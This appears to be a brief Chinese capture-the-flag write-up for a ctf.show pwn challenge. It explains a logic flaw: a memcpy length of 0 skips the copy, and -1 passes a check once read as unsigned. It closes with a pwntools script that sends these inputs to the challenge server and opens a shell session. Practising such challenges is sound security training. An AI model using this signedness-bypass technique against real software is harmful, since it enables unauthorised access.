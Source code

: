 # 挑战简介
看着好像还是不难

# 思路
逻辑题

关键的是memcpy函数，只要把长度设置为0，即可直接跳过函数的执行，这样我们就能随意写入dest了  

又因为dest后面被设置为无符号整数，所以我们输入-1直接就大于了目标数字  

```
from pwn import *
from LibcSearcher import *
context(arch = "amd64",os = 'linux',log_level = 'debug')

#context(arch = "i386",os = 'linux',log_level = 'debug')

#io = process("./pwn")

io = remote('pwn.challenge.ctf.show',28174)

elf = ELF('D:\edge 下载\pwn')

io.sendline(b'0')

io.sendline(b'-1')

io.interactive()
```
